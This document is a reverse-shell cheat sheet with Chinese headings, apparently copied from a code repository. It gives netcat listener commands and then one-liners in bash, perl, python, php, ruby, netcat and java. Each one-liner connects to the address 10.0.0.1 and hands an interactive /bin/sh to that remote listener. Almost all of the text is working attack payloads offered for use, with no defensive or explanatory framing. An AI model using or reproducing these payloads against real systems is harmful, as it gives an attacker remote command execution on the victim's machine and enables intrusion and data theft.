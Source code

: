 #### 本地监听
```
nc -vv -lp 1234
nc -vv -lp 8080
nc -vv -lp 8888
```
---

#### bash版本
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### perl版本
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### python版本
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

[netcat](https://github.com/vforbox/code-study/blob/master/Python/netcat.py)

#### php版本
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### ruby版本
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### nc版本
```
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc 10.0.0.1 8888|/bin/sh|nc 10.0.0.1 9999
```

#### java版本
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
